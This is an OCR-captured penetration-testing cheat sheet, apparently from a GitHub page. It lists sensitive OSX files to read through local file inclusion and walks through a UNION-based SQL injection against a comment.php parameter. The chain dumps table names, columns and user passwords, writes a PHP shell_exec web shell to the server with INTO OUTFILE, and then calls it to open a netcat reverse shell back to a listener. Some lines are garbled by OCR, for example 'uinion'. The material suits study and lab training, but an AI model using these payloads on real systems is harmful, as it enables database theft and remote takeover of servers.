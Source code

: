 ##### LFI OSX Files:
```bash
/etc/fstab
master.passwd
resolv.conf
sudoers
sysctl.conf
```

#### Websites SQLi + Databases
Enumerating MySQL database in URL
```sql
mysql –u root; use webappdb; select * from users
select * from users where name=‘wronguser’ or 1=1;# and password='wrongpass'
```

```
# URL vulnerability for GET requests 
http://127.0.0.1/comment.php?id=735`

# order by 6 # col enumeration: works fine
http://127.0.0.1/comment.php?id=735

# order by 7. # Breaks. Pick display field <7(eg5)
http://127.0.0.1/comment.php?id=735 

?id=735 uinion all select 1,2,3,4,@@version/user(),6  # Col# permit UNION ALL SELECT

?id=735 uinion all select 1,2,3,4,user(),6

…4,table_name,6 FROM information_schema.tables

…4,column_name,6 FROM information_schema.columns where table_name='users'

…,4,concat(name,0x3a,password),6 FROM users

# Reverse shell… SQL puts code to file & code execution
# put php shell_exec into a new file on server
…4,"<?php echo shell_exec($_GET[‘cmd’]);?>",6 into OUTFILE 'c:/xamp/htdocs/backdoor.php'

# setup a listener
nc –nlvp 4444 
# execute
http://127.0.0.1/backdoor.php?cmd=nc –nv 10.11.0.160 4444 –e cmd.exe

# Local web proxy (POST requests = non URL)
# Tamper Data: intercepts HTTP request => edit parameters: bypassing client side restrictions
# place php shell_exec in file on server
en 'union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/new_backdoor.php%00''

# setup listener
nc –nlvp 4444 

http://10.11.15.54//new_backdoor.php?cmd=nc -nv 10.11.0.160 4444 -e cmd.exe
```
